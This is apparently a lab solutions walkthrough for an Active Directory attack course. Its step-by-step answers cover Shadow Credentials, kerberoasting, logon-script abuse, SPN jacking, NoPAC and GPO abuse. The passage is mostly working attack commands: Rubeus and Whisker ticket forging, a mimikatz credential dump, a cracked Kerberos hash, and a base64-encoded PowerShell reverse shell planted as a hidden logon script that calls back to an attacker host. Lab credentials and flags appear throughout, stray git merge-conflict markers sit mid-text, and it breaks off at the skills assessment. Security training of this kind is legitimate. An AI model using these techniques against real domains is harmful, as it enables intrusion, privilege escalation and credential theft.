# Shadow Credentials

## Question 1

### "Compromise Gabriel using Jeffry's account and read the flag located at \\LAB-DC\Gabriel\gabriel.txt"

After students have spawned the target, they need to connect via RDP with the provided credentials `jeffry:Music001`.

```shell
xfreerdp /v:STMIP /u:jeffry /p:Music001 /dynamic-resolution /drive:.,student
```

Once connected, they need to open `PowerShell`, navigate to `C:\Tools`, and import `PowerView.ps1`:

```powershell
cd C:\Tools
Import-Module .\PowerView.ps1
```

```powershell-session
PS C:\Users\jeffry> cd C:\Tools
PS C:\Tools> Import-Module .\PowerView.ps1
```

Students need to identify a user whose `msDS-KeyCredentialLink` attribute is not empty using `Get-DomainUser` and its filter:

```powershell
Get-DomainUser -Filter '(msDS-KeyCredentialLink=*)'
```


Subsequently, students need to proceed with querying the ACL of `jeffry` on `gabriel` using `Get-DomainObjectAcl`, they will find that the user jeffry has `GenericAll` rights over gabriel:

```powershell
$userSID = (Get-DomainUser -Identity jeffry).objectsid
Get-DomainObjectACL -Identity gabriel | ?{$_.SecurityIdentifier -eq $userSID}
```
/


Students will proceed to use `Whisker` to perform the `Shadow Credentials attack` targetting the user `gabriel`:

```powershell
.\Whisker.exe add /target:gabriel
```


Subsequently, they will have to use the generated `Rubeus.exe` command from the output to request a ticket-granting ticket by adding the `/nowrap` parameter to disable line-wrapping in the output of the base64 blob:

```powershell
.\Rubeus.exe asktgt /user:gabriel /certificate:MIIJ <SNIP> ICB9A= /password:"qT3TMRpZFvgok9ke" /domain:lab.local /dc:LAB-DC.lab.local /getcredentials /show /nowrap
```


Right after requesting the ticket-granting ticket, students will proceed to create a sacrificial logon session by spawning `PowerShell` using Rubeus and its `createnetonly` action:

```powershell
.\Rubeus.exe createnetonly /program:powershell.exe /show
```


Within the newly spawned `PowerShell` window, students will perform a Pass-the-Ticket attack with the obtained base64 ticket earlier:

```powershelll
.\Rubeus.exe ptt /ticket:doIGJj <SNIP> mxvY2Fs
```


Right after importing the ticket in memory, students can grab the flag located at `\\LAB-DC\Gabriel\`:

```powershell
type \\LAB-DC\Gabriel\gabriel.txt
```


Answer: `HTB{Sha2_Cr3denti1al_ATTACK}`

## Question 2

### "Compromise the account PCTEST001 and read the flag located at \\LAB-DC\PCSHARES\pcflag.txt"

After students have spawned the target, they need to execute bloodhound with the provided credentials `gabriel:Godisgood001`.

```bash
bloodhound-python -C All -u 'gabriel' -p 'Godisgood001' -d LAB-DC.lab.local -ns 10.129.87.87 --zip
```

Students need to start `Neo4j` in one terminal tab and in another BloodHound on their workstations and upload the archive to BloodHound. The password for neo4j is `neo4j:neo4j` on the workstation in Academy.

```shell
sudo neo4j console
bloodhound
```


Subsequently, students will have to enumerate the `First Degree Object Control`, where they will find that the user jeffry has `GenericWrite` over the user `martha`:


Using the same approach, they will enumerate the user `martha` and her `First Degree Object Control`, where they will come to know that the user has `AddKeyCredentialLink` over the `PCTEST001` computer:


With the obtained information, students need to return to the RDP session gained on previous question, change their directory to `C:\Tools`, import `PowerView.ps1`, and proceed to utilize the session as `jeffry` to add a fake `ServicePrincipalName` attribute on the user `martha`:

```powershell
cd C:\Tools
Import-Module .\PowerView.ps1
$SecPassword = ConvertTo-SecureString 'Music001' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('LAB\jeffry', $SecPassword)
Set-DomainObject -Credential $Cred -Identity martha -SET @{serviceprincipalname='nonexistent/BLAHBLAH'}
```


Subsequently, students will proceed to perform a kerberoasting attack using `Rubeus`:

```powershell
.\Rubeus.exe kerberoast /user:martha /format:hashcat /nowrap
```


With the obtained hash, they will utilize their workstations for further password cracking to reveal the plaintext password using `rockyou.txt` as a dictionary list:

```shell
echo -n '$krb5tgs$23$*martha$lab.local$nonexistent/BLAHBLAH@lab.local*$3751A7EBFEABA207D5B1421BA41AC081$0AE13A7F174A1CB45805465F2A8D5677AD7C970E22B5DA48C9242DBE432EE15CDDD6A01FFB6974FB00C659681C7BA647A237053FC434D3157983553CAAA3F3B421724CA1E9099625643C206D3ED411397BA6D3556BD7C011B92B2D743462C7289646B6FE72D5B247F0418FFCB57AD161733AC5C4CB19BE953519D345C8C36C49007F59374E35667E8D935151099AB6CAE81BD2B75211A330E35BC36047CBB1E70F0609F645DDFCFD9940CF5885ACC2E908CEF6FC9B3F1EB84A1C7535C390DEA3A4019D5F4841F249290DCD355A673763170D52319B43E19AB3248D63B677ACC96437FB98D6EEEF8013FE9593015172924FC6136FECBC496A3648108FB79351991C76929AD42A776191B2A28E36E963793C154ECF8E8F9C78BE0931B8A4E4335E136C8B11B23FBE8AB60A53BD094FC6CA8CFA5E958E71710D18F684F0A1D1C52273F1992C9E4830BA4DEEDE67FAF69208DEEAD023A04509FBE63B5997D4DE97B7E69EB46F68B9BF116323BB439E2DE2AA829075BDC69CC4351B32A23B8863AA8E201E4FEDDBD23295BA447F08A2E6A73A8A2B9A4137AED5DEC26FBA614FF9A3D744886F60E8C325F6F136FB7592BEB121596858ADD51EF7B13DFBAD4C542B993BC0C00B55FE4E9AB50D2DEA9577809E029AA47E605387A92858770EEE9A90574BB8E3DA36D2FE9E6DA39AAD4C04FEE69AC1E11AF0761CB60535D8F1C86CDDD358AFE826C46ECCA1437D53C1D63B305CDD699AC5D2BF088D46A7BE6BFDF9E00CB6AB24621A6FCE1CCEF497BA5EF72B6D5E9F56FB772D7BFE0D972A3C5054C177BCB95F154DA248BFD71F0FECEE0CEEA3149112EF8544CE159CC54B050252839BC978BA16C63E3F1AE45F82255AFC12B371CC8DE27EA5FE1CE73229FC4B934B312A6C155920374146197FA91EB70185DCF476BF93D3A3E670CD46B995CC476600ADAFC36861D66536F8E02B2EE2445BEC3537F6107F779F4BDE66D22200EDA79C37F423F47848238C2598DB4D581FE4BF414DF9B0D27C6386628A2626B50EB75D693A8AF6BBA258AF7FB86E05A8ED7044957054E6A20C2589433BEB3EC8DB2082D745E25BF73BDAA565110A12FCC69B32E1E2B87BEBF5C763106FDAA89FBC641901DDFC6C0F3B1D7FC8081059216CF365F9A084D26E2937FC49E8A61EE6C8CBA673B86007DF36BF72E03031DC3E2637B1982D61B841A2E8D4C0F28BA71EA1C278C552BC9C1D389EF489464903B1CA47996F62B13D96583E8316FE6E20E8A0C82EEC049C6ED5CDF00BD439E840E5F2A87340023F2DED4AC4F0CC21555374CB53100CA877F39E102A00C0F95EBF4DE4218414202B8EAE3E1A01FEC8B0A607DF1B3B063555C07EB576FE189D3952D0D1E9BB0A776B5F8D2B9D2486DC5B1A56722D909A6BCD339A71307DF7D55C0E33B5395A647A69D82DE250EB883ABD82D1B33BACB199A1531DD75860C83A0DAE73187040AE613340CB24CAB8DAED20DC20F5EEEBD387FCE9A1F1A5D90AB7423A8FC8BC1AA1846CAD3202E893610DF3C4848B0F6F23152B12D71970EE0981A25862DD9ABAA5BC506D43783FB73734D79D1AAFBBCD3942E5771A36FBF33324774DEA9838C1321D73E5915627E9F9FD49D8F04F3FAA1096ABD7559871879E51BB365A42B09234C7943CB91CF3450B524E670B342E3EAD00800B5EE755F3BE032F359FB107619046F1894FDC211E222C8941E82134E9A76D096BBD16604BECEEE269ECCAEA4DA1D7F10EEA2DDAD7CE7E4AFA187BFFC6364A3E5F8FA5B035F293CE6BEC101B6FA83EA0C096F219931647A6907EC5FA2BF7F6971D391887E3BB30B8130533AAA8924C48F4E9C9ECE1254BD44C2C268A4BD0A35EC05FE898FFC32CD0B49BF5AA30FB97018AAF8F753E74EBC4E33BAA18051925B890C340A6173F38A99EFFA9E3A2B5D2E065' > martha.hash

hashcat -m 13100 martha.hash /usr/share/wordlists/rockyou.txt
```


With the recovered plaintext password, students will return to the RDP session and utilize `Rubeus` to spawn a sacrificial `PowerShell` process.

```powershell
.\Rubeus.exe createnetonly /program:powershell /show /username:martha /password:Winner77 /domain:lab.local
```


In the newly spawned `PowerShell` window, students will request a ticket-granting ticket and import it into memory:

```powershell
.\Rubeus.exe asktgt /user:martha /password:Winner77 /domain:lab.local /ptt /nowrap
```


Subsequently, students will use `Whisker` to perform the `Shadow Credentials` attack targeting the `PCTEST001` computer account:

```powershell
.\Whisker.exe add /target:PCTEST001$
```


Using the generated command in the output from `Whisker`, students will have to add `/ptt` to import the ticket into memory.

```powershell
Rubeus.exe asktgt /user:PCTEST001$ /certificate:MIIJ0A <SNIP> wICB9A= /password:"mcbNdLd0tz0vpsQI" /domain:lab.local /dc:LAB-DC.lab.local /getcredentials /show /ptt
```


Having imported the ticket into memory, they can proceed to grab the flag from `\\LAB-DC\PCSHARES\`:


```powershell
type \\LAB-DC\PCSHARES\pcflag.txt
```

Answer: `HTB{THIS_1$_JUST_@_FL4G}`

# Logon Scripts

## Question 1

### "Abuse the rights of the user 'Julio' and submit the flag in 'C:\Users\Wayne\Desktop\flag.txt'. (Use relative paths not absolute ones.)"

After spawning the target, students will proceed to query the `NETLOGON` share, where they will find a directory named `WaynesScripts`:

```shell
smbclient //SMTIP/NETLOGON -U julio%'SecurePassJul!08' -c ls
```


Subsequently, students will enumerate the permissions over the directory in the `NETLOGON` share, where they will come to know that the user `julio` has read, write, and execute permissions:

```shell
smbcacls //STMIP/NETLOGON /WaynesScripts -U julio%'SecurePassJul!08'
```


They will reuse the provided base64-encoded reverse shell script:

```shell
python3 -c 'import base64; print(base64.b64encode((r"""$LHOST = "PWNIP"; $LPORT = PWNPO; $TCPClient = New-Object Net.Sockets.TCPClient($LHOST, $LPORT); $NetworkStream = $TCPClient.GetStream(); $StreamReader = New-Object IO.StreamReader($NetworkStream); $StreamWriter = New-Object IO.StreamWriter($NetworkStream); $StreamWriter.AutoFlush = $true; $Buffer = New-Object System.Byte[] 1024; while ($TCPClient.Connected) { while ($NetworkStream.DataAvailable) { $RawData = $NetworkStream.Read($Buffer, 0, $Buffer.Length); $Code = ([text.encoding]::UTF8).GetString($Buffer, 0, $RawData -1) }; if ($TCPClient.Connected -and $Code.Length -gt 1) { $Output = try { Invoke-Expression ($Code) 2>&1 } catch { $_ }; $StreamWriter.Write("$Output`n"); $Code = $null } }; $TCPClient.Close(); $NetworkStream.Close(); $StreamReader.Close(); $StreamWriter.Close()""").encode("utf-16-le")).decode())'
```


Students need to create a `logonScript.bat` where they are going to utilize the base64 encoded reverse shell:

```shell
echo -n 'powershell -ExecutionPolicy Bypass -WindowStyle Hidden -EncodedCommand JABMAEgATwBTAFQAIAA9ACAAIgAxADAALgAxADAALgAxADYALgAxADMAIgA7ACAAJABMAFAATwBSAFQAIAA9ACAAMQAyADMANAA7ACAAJABUAEMAUABDAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBTAG8AYwBrAGUAdABzAC4AVABDAFAAQwBsAGkAZQBuAHQAKAAkAEwASABPAFMAVAAsACAAJABMAFAATwBSAFQAKQA7ACAAJABOAGUAdAB3AG8AcgBrAFMAdAByAGUAYQBtACAAPQAgACQAVABDAFAAQwBsAGkAZQBuAHQALgBHAGUAdABTAHQAcgBlAGEAbQAoACkAOwAgACQAUwB0AHIAZQBhAG0AUgBlAGEAZABlAHIAIAA9ACAATgBlAHcALQBPAGIAagBlAGMAdAAgAEkATwAuAFMAdAByAGUAYQBtAFIAZQBhAGQAZQByACgAJABOAGUAdAB3AG8AcgBrAFMAdAByAGUAYQBtACkAOwAgACQAUwB0AHIAZQBhAG0AVwByAGkAdABlAHIAIAA9ACAATgBlAHcALQBPAGIAagBlAGMAdAAgAEkATwAuAFMAdAByAGUAYQBtAFcAcgBpAHQAZQByACgAJABOAGUAdAB3AG8AcgBrAFMAdAByAGUAYQBtACkAOwAgACQAUwB0AHIAZQBhAG0AVwByAGkAdABlAHIALgBBAHUAdABvAEYAbAB1AHMAaAAgAD0AIAAkAHQAcgB1AGUAOwAgACQAQgB1AGYAZgBlAHIAIAA9ACAATgBlAHcALQBPAGIAagBlAGMAdAAgAFMAeQBzAHQAZQBtAC4AQgB5AHQAZQBbAF0AIAAxADAAMgA0ADsAIAB3AGgAaQBsAGUAIAAoACQAVABDAFAAQwBsAGkAZQBuAHQALgBDAG8AbgBuAGUAYwB0AGUAZAApACAAewAgAHcAaABpAGwAZQAgACgAJABOAGUAdAB3AG8AcgBrAFMAdAByAGUAYQBtAC4ARABhAHQAYQBBAHYAYQBpAGwAYQBiAGwAZQApACAAewAgACQAUgBhAHcARABhAHQAYQAgAD0AIAAkAE4AZQB0AHcAbwByAGsAUwB0AHIAZQBhAG0ALgBSAGUAYQBkACgAJABCAHUAZgBmAGUAcgAsACAAMAAsACAAJABCAHUAZgBmAGUAcgAuAEwAZQBuAGcAdABoACkAOwAgACQAQwBvAGQAZQAgAD0AIAAoAFsAdABlAHgAdAAuAGUAbgBjAG8AZABpAG4AZwBdADoAOgBVAFQARgA4ACkALgBHAGUAdABTAHQAcgBpAG4AZwAoACQAQgB1AGYAZgBlAHIALAAgADAALAAgACQAUgBhAHcARABhAHQAYQAgAC0AMQApACAAfQA7ACAAaQBmACAAKAAkAFQAQwBQAEMAbABpAGUAbgB0AC4AQwBvAG4AbgBlAGMAdABlAGQAIAAtAGEAbgBkACAAJABDAG8AZABlAC4ATABlAG4AZwB0AGgAIAAtAGcAdAAgADEAKQAgAHsAIAAkAE8AdQB0AHAAdQB0ACAAPQAgAHQAcgB5ACAAewAgAEkAbgB2AG8AawBlAC0ARQB4AHAAcgBlAHMAcwBpAG8AbgAgACgAJABDAG8AZABlACkAIAAyAD4AJgAxACAAfQAgAGMAYQB0AGMAaAAgAHsAIAAkAF8AIAB9ADsAIAAkAFMAdAByAGUAYQBtAFcAcgBpAHQAZQByAC4AVwByAGkAdABlACgAIgAkAE8AdQB0AHAAdQB0AGAAbgAiACkAOwAgACQAQwBvAGQAZQAgAD0AIAAkAG4AdQBsAGwAIAB9ACAAfQA7ACAAJABUAEMAUABDAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkAOwAgACQATgBlAHQAdwBvAHIAawBTAHQAcgBlAGEAbQAuAEMAbABvAHMAZQAoACkAOwAgACQAUwB0AHIAZQBhAG0AUgBlAGEAZABlAHIALgBDAGwAbwBzAGUAKAApADsAIAAkAFMAdAByAGUAYQBtAFcAcgBpAHQAZQByAC4AQwBsAG8AcwBlACgAKQA=
' > logonScript.bat
```

Subsequently, they will upload the `logonScript.bat` into the `WaynesScripts` directory of the `NETLOGON` share:

```shell
smbclient //STMIP/NETLOGON -U julio%'SecurePassJul!08' --directory WaynesScripts -c "put logonScript.bat"
```


Students will reuse the example from the section while modifying the user from `eric` to `wayne`:

```shell
echo "dn: CN=wayne,CN=Users,DC=inlanefreight,DC=local
changetype: modify
replace: scriptPath
scriptPath: WaynesScripts\logonScript.bat" > logonScript.ldif
```

With the creation of the `.ldif` file, students will use `ldapmodify` to modify the `scriptPath` holding the new value:

```shell
ldapmodify -H ldap://STMIP -x -D 'julio' -w 'SecurePassJul!08' -f  logonScript.ldif  
```


Right after, students will start a netcat listener on port `9001`, on which they will receive the reverse shell connection in a few moments and grab the flag from `C:\Users\Wayne\Desktop\`:

```shell
nc -nvlp 9001
type C:\Users\Wayne\Desktop\flag.txt
```


Answer: `HTB{eb047f7fd26005d6444ec1b8e4f10de1}`

## Question 2

### "Abuse the rights of the user 'Julio' and submit the flag in 'C:\Users\Benjamin\Desktop\flag.txt'."

Students will reuse the target from the previous question and establish an RDP connection with the credentials `julio:SecurePassJul!08`.

```shell
xfreerdp /v:STMIP /u:julio /p:'SecurePassJul!08' /dynamic-resolution
```

Once connected, students need to open `PowerShell`, navigate to `C:\Tools`, import `PowerView`, and enumerate the rights of Julio over the users in the domain using `Get-DomainObjectAcl` cmdlet, finding out that Julio has `ReadProperty` over the user `Benjamin`:

Code: powershell

```powershell
cd C:\Tools
Import-Module .\PowerView.ps1
```

```
$julioSID = (Get-DomainUser -Identity julio).objectsid
Get-DomainObjectAcl -ResolveGUIDs | ?{$_.SecurityIdentifier -eq $julioSID}
```


Students will query the `scriptPath` property of the user `benjamin` using the `Get-DomainObject` cmdlet and enumerate Julio's permissions over the uncovered `.bat` file, where Julio has read, execute, and write permissions:

```powershell-session
Get-DomainObject benjamin -Properties scriptPath
```


```powershell
Get-DomainObject benjamin -Properties scriptPath
icacls \\DC03\netlogon\CCEDF2EBD2F1\DACEEFD3AFA1\32DCB1ACDBFE\12E1CD03F3E1\12E1CD03F3E1.bat
```


Students can read the file's contents, finding out that the user doesn't have a `logonScript` configured yet.

```powershell
type \\inlanefreight.local\sysvol\inlanefreight.local\scripts\CCEDF2EBD2F1\DACEEFD3AFA1\32DCB1ACDBFE\12E1CD03F3E1\12E1CD03F3E1.bat
```


Subsequently, students will need to reuse the same script in the previous question, making sure to change the port number:

```shell
python3 -c 'import base64; print(base64.b64encode((r"""$LHOST = "PWNIP"; $LPORT = PWNPO; $TCPClient = New-Object Net.Sockets.TCPClient($LHOST, $LPORT); $NetworkStream = $TCPClient.GetStream(); $StreamReader = New-Object IO.StreamReader($NetworkStream); $StreamWriter = New-Object IO.StreamWriter($NetworkStream); $StreamWriter.AutoFlush = $true; $Buffer = New-Object System.Byte[] 1024; while ($TCPClient.Connected) { while ($NetworkStream.DataAvailable) { $RawData = $NetworkStream.Read($Buffer, 0, $Buffer.Length); $Code = ([text.encoding]::UTF8).GetString($Buffer, 0, $RawData -1) }; if ($TCPClient.Connected -and $Code.Length -gt 1) { $Output = try { Invoke-Expression ($Code) 2>&1 } catch { $_ }; $StreamWriter.Write("$Output`n"); $Code = $null } }; $TCPClient.Close(); $NetworkStream.Close(); $StreamReader.Close(); $StreamWriter.Close()""").encode("utf-16-le")).decode())'
```


With the base64 reverse shell, students will proceed to use `notepad` to open the `.bat` file:

```powershell
notepad \\inlanefreight.local\sysvol\inlanefreight.local\scripts\CCEDF2EBD2F1\DACEEFD3AFA1\32DCB1ACDBFE\12E1CD03F3E1\12E1CD03F3E1.bat
```

Subsequently, they will place the payload from the previous question and save the changes:


On their workstations, students will start a netcat listener on port 9002. After a few moments, they will receive a reverse shell connection, and subsequently, they can grab the flag from `C:\Users\Benjamin\Desktop\` :

```shell
nc -nvlp 9002
type C:\Users\Benjamin\Desktop\flag.txt
```


Answer: `HTB{0890f49418cd8bc45c727a99360003d6}`

# SPN Jacking

## Question 1

### "Which computer other than DBSRV003 does not exist in the domain and left an orphaned SPN?"

After spawning the target, students need to establish an RDP connection using the credentials `gabriel:Godisgood001`.

Subsequently, students need to open `PowerShell`, navigate to `C:\Tools`, and import `PowerView.ps1` and `Get-ConstrainedDelegation.ps1`:

```powershell
cd C:\Tools
Import-Module .\PowerView.ps1
Import-Module .\Get-ConstrainedDelegation.ps1
```

They will proceed to utilize the `Get-ConstrainedDelegation -CheckOrphaned` cmdlet to display the value of the `msDS-AllowedToDelegateTo` attribute while checking only for orphaned service principal names:

```powershell
Get-ConstrainedDelegation -CheckOrphaned
```


Answer: `WS01`

## Question 2

### "Which user has WriteSPN or its equivalent on SRVWEB07 (use the name, omit the domain)?"

Utilizing the previously established RDP session, students will proceed to create a variable that will hold an array of the users' SIDs. Subsequently, they will query the `SRVWEB07` computer's ACLs.

Code: powershell

```powershell
$sids = (Get-DomainUser).objectsid
Get-DomainComputer SRVWEB07 | Get-DomainObjectAcl -ResolveGUIDs | Where-Object { $sids -contains $_.SecurityIdentifier.Value}
```



Right after, they will proceed to convert the SID in the `SecurityIdentifier` attribute with `ConvertFrom-SID`:

```powershell
ConvertFrom-SID S-1-5-21-831407601-1803900599-2479021482-1112
```



Answer: `elieser`

## Question 3

### "Which user other than gabriel has WriteSPN on WEB01?"

Students will proceed to reuse the RDP session and the previously created variable that holds an array of the users' SIDs with the `Get-DomainComputer` cmdlet:

```powershell
Get-DomainComputer WEB01 | Get-DomainObjectAcl -ResolveGUIDs |Where-Object ActiveDirectoryRights -eq WriteProperty | Where-Object { $sids -contains $_.SecurityIdentifier.Value}
```



Subsequently, students will need to convert the SID in the `SecurityIdentifier` attribute using `ConvertFrom-SID`:

```powershell
ConvertFrom-SID S-1-5-21-831407601-1803900599-2479021482-1112
```



Answer: `elieser`

## Question 4

### "Abuse Gabriel's rights to compromise the account that has WriteSPN on SRVWEB07. Use the live SPN Jacking technique to compromise WEB01 using SRVWEB07 SPN and read the flag located at C:\Users\Administrator\Desktop\flag.txt."

With the previously established RDP session, students will have to query the ACL over the user found from the other exercises to uncover the `GenericAll` right:

Code: powershell

```powershell
$gabriel = (Get-DomainUser gabriel).objectsid
Get-DomainObjectAcl -Identity elieser | ?{$_.SecurityIdentifier -eq $gabriel}
```



They will proceed to change the password of the user using the `Set-DomainUserPassword` cmdlet:

```powershell
$UserPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
Set-DomainUserPassword -Identity elieser -AccountPassword $UserPassword -Verbose
```



Subsequently, students will proceed to create a sacrificial logon session using `Rubeus` and `createnetonly` while specifying `PowerShell` as the program to be spawned:

```powershell
.\Rubeus.exe createnetonly /program:powershell.exe /username:elieser /password:'Password123!' /domain:inlanefreight.local /show
```



Students will proceed to import `PowerView.ps1` and query the `serviceprincipalname` attribute of the `SRVWEB07` computer and note down the `MSSQL/SRVWEB07` attribute which will be used later:

```powershell
Import-Module .\PowerView.ps1
Get-DomainComputer SRVWEB07 | Select-Object -ExpandProperty serviceprincipalname
```



Students need to open another `PowerShell` window as `Administrator`, navigate to `C:\Tools`, and use `mimikatz` to dump the NTLM hash of the SRV01 computer account:

Code: powershell

```powershell
cd C:\Tools
.\mimikatz.exe "sekurlsa::logonpasswords" exit
```



Having obtained the NTLM hash of the computer account, students will return to the `PowerShell` window spawned as a sacrificial logon session, where they will proceed to perform a `Live SPN-jacking` attack:

Code: powershell

```powershell
Set-DomainObject -Identity SRVWEB07 -Clear 'serviceprincipalname' -Verbose
Set-DomainObject -Identity WEB01 -Set @{serviceprincipalname='MSSQL/SRVWEB07'} -Verbose
```



Students will proceed to request a ticket using `s4u` within `Rubeus`:

```powershell
.\Rubeus.exe s4u /domain:inlanefreight.local /user:SRV01$ /rc4:d87f115c478f887df69b45d60d87b558 /impersonateuser:administrator /msdsspn:"MSSQL/SRVWEB07" /nowrap
```



They will proceed to utilize the obtained ticket, which is going to be used in the `tgssub` action for obtaining a ticket-service granting ticket where the `/altservice` option is going to be used specifying the `CIFS/WEB01` service for substitution while importing the ticket into memory:

```powershell
.\Rubeus.exe tgssub /ticket:doIGp <SNIP> V0VCMDc= /altservice:CIFS/WEB01 /nowrap /ptt
```



Students can proceed to obtain the flag from `\\WEB01\Users\Administrator\Desktop`:

```powershell
type \\WEB01\Users\Administrator\Desktop\flag.txt
```



Answer: `SPN_Jack1nG_#93`

# sAMAccountName Spoofing

## Question 1

### "How many machines did aneudy create?"

After spawning the target, students need to connect via RDP on port `13389` using the credentials `aneudy:Ilovemusic01`:

```shell
xfreerdp /v:STMIP:13389 /u:aneudy /p:'Ilovemusic01' /dynamic-resolution
```

Once connected, students will have to open `PowerShell`, navigate to `C:\Tools`, import `PowerView.ps1`, and create variables that will be used to query the number of machines created by the user `aneudy` using the `Get-DomainComputer` cmdlet while querying the `ms-DS-CreatorSID` attribute:

```powershell
cd C:\Tools
Import-Module .\PowerView.ps1
$computers = Get-DomainComputer -Filter '(ms-DS-CreatorSID=*)' -Properties name,ms-ds-creatorsid
$aneudyComputers = $computers | where { (New-Object System.Security.Principal.SecurityIdentifier($_."ms-ds-creatorsid",0)).Value -eq (ConvertTo-SID aneudy) }
$aneudyComputers.Count
```



<<<<<<< HEAD
=======
```powershell-session
PS C:\Users\aneudy> cd C:\Tools
PS C:\Tools> Import-Module .\PowerView.ps1
PS C:\Tools> $computers = Get-DomainComputer -Filter '(ms-DS-CreatorSID=*)' -Properties name,ms-ds-creatorsid
PS C:\Tools> $aneudyComputers = $computers | where { (New-Object System.Security.Principal.SecurityIdentifier($_."ms-ds-creatorsid",0)).Value -eq (ConvertTo-SID aneudy) }
PS C:\Tools> $aneudyComputers.Count
```

>>>>>>> ef6f336 (Guardando mis cambios locales)
Answer: `2`

## Question 2

### "What's Felipe's SPN?"

Utilizing the previously established RDP session, students will have to use `Get-DomainUser` cmdlet to query the `serviceprincpalname` attribute of the user `felipe`:

```powershell
(Get-DomainUser -Identity Felipe).serviceprincipalname
```



Answer: `HTTP/srv03`

## Question 3

### "Abuse NoPAC to compromise the DC and read the flag located at C:\Users\Administrator\Desktop\flag.txt"

Students will reuse the previously established RDP session, open `Command Prompt`, navigate to `C:\Tools`, spawn `PowerShell`, and import `Powermad.ps1` and `PowerView.ps1`:

```cmd
cd C:\Tools
powershell
Import-Module .\Powermad.ps1
Import-Module .\PowerView.ps1
```

Subsequently, students will proceed with the exploitation of the NoPAC vulnerability by creating a new computer:

```cmd
$password = ConvertTo-SecureString 'Password123' -AsPlainText -Force
New-MachineAccount -MachineAccount "Student" -Password $($password) -Domain inlanefreight.local -DomainController 172.18.88.10 -Verbose
```



Right after, they will proceed to clear the values in the `serviceprincipalname` of the newly added computer account:

```cmd
Set-DomainObject -Identity 'Student$' -Clear 'serviceprincipalname' -Domain inlanefreight.local -DomainController 172.18.88.10 -Verbose
```



Students will proceed to add the `dc03` value in the `serviceprincipalname` attribute on the `Student` machine account:

```cmd
Set-MachineAccountAttribute -MachineAccount "Student" -Value "dc03" -Attribute samaccountname -Domain inlanefreight.local -DomainController 172.18.88.10 -Verbose
```



Subsequently, they will proceed to request a ticket-granting ticket for the user `dc03` with the password of the machine account (`Password123`) and take a note of the base64 encoded ticket which will be used later:

```cmd
.\Rubeus.exe asktgt /user:dc03 /password:"Password123" /domain:inlanefreight.local /dc:172.18.88.10 /nowrap
```



Students will revert the `sAMAccountName` attribute to the original one:

```cmd
Set-MachineAccountAttribute -MachineAccount "Student" -Value "Student" -Attribute samaccountname -Domain inlanefreight.local -DomainController 172.18.88.10 -Verbose
```



Subsequently, students will proceed to perform `s4u` attack impersonating the `Administrator` and specifying the `cifs/dc03.inlanefreight.local` in the `/altservice` parameter using the previously obtained ticket:

```cmd
.\Rubeus.exe s4u /self /impersonateuser:Administrator /altservice:"cifs/dc03.inlanefreight.local" /dc:172.18.88.10 /ptt /ticket:doIFJDC <SNIP> xvY2Fs
```



Having imported the ticket into memory, students can proceed to grab the flag at `\\dc03.inlanefreight.local\c$\Users\Administrator\Desktop`:

```cmd
type \\dc03.inlanefreight.local\c$\Users\Administrator\Desktop\flag.txt
```



Answer: `N0P4c_AttacK`

# GPO Attacks

## Question 1

### "What number does the gplink attribute has when a GPO is disabled?"

1 - The GPO is disabled.



Answer: `1`
## Question 2

### "After enumerating the GPOs, which one is linked but is disabled?"

After spawning the target, students need to connect using RDP with the credentials `gabriel:Godisgood001`.

Subsequently, students need to open `PowerShell`, navigate to `C:\Tools`, import `PowerView.ps1`, and use `Get-DomainOU` while using the properties `name` and `gplink`:

```powershell
cd C:\Tools
Import-Module .\PowerView.ps1
Get-DomainOU -Properties name,gplink
```



Students will proceed with copying the globally unique identifier of `Servers` and utilize it for querying the domain to display the name of the GPO:

```powershell
Get-GPO -Guid 8F3E10E7-E9FC-43C7-A58F-3ECFFBF69756
```



Answer: `TechSupport Management`

## Question 3

### "Which user has rights to modify the Site?"

Using the previously established RDP session, students will proceed to import `Get-GPOEnumeration.ps1` and run the `Get-GPOEnumeration` cmdlet:

```powershell
Import-Module .\Get-GPOEnumeration.ps1
Get-GPOEnumeration
```



Answer: `eldridge`
## Question 4

### "Which other user other than eldridge has rights to link GPOs to the Default Site?"

Using the previously established RDP session, students will query the domain using the `Get-DomainSite` cmdlet from the section:

```powershell
Get-DomainSite -Properties distinguishedname | foreach { Get-DomainObjectAcl -SearchBase $_.distinguishedname -ResolveGUIDs | where { $_.ObjectAceType -eq "GP-Link" -and $_.ActiveDirectoryRights -match "WriteProperty" } | select ObjectDN, @{Name='ResolvedSID';Expression={ConvertFrom-SID $_.SecurityIdentifier}} | Format-List }
```



Answer: `luz`

## Question 5

### "Which user has rights to link GPOs to the Servers OU?"

Using the previously established RDP session, students will query the domain using the `Get-DomainOU` cmdlet from the section:

```powershell
Get-DomainOU | Get-DomainObjectAcl -ResolveGUIDs | where { $_.ObjectAceType -eq "GP-Link" -and $_.ActiveDirectoryRights -match "WriteProperty" } | select ObjectDN, @{Name='ResolvedSID';Expression={ConvertFrom-SID $_.SecurityIdentifier}} | Format-List
```



Answer: `gabriel`

## Question 6

### "Abuse gabriel rights over GPOs to compromise WEB01 and read the flag located at C:\Users\Administrator\Documents\flag.txt"

Using the previously established RDP session, students will query the GPOs using the `Get-DomainEnumeration` cmdlet to search for modifiable GPOs by the user `gabriel`, and taking note of the `GPOName` value:

```powershell
Get-GPOEnumeration -ModifyGPOs
```



Subsequently, students will proceed to query the computer `WEB01` in the domain, validating that it is part of the `Servers` organizational unit using the `Get-DomainComputer` cmdlet:

```powershell
Get-DomainComputer web01 -Properties distinguishedname
```



Students will proceed to use `SharpGPOAbuse` to take advantage of the permissions over the GPO that the user `gabriel` has by adding him to the local administrators' group:

```powershell
.\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount gabriel --GPOName TestGPO
```



Right after, they will proceed to link the GPO using the `New-GPLink` cmdlet:

```powershell
New-GPLink -Name TestGPO -Target "OU=Servers,DC=inlanefreight,DC=local"
```



Subsequently, students need to `Sign out` of the system and reconnect. they need to open `PowerShell` and grab the flag located at `\\web01\c$\Users\Administrator\Desktop`:

```powershell
cat \\web01\c$\Users\Administrator\Documents\flag.txt
```



Answer: `GPO_Attacks_R_C00l`

# Skills Assessment

## Question 1

### "Abuse taino's rights to compromise SDE01 and read the flag located at C:\Users\Administrator\Desktop\flag.txt"

After spawning the target, students need to download the Windows version of chisel:

```shell
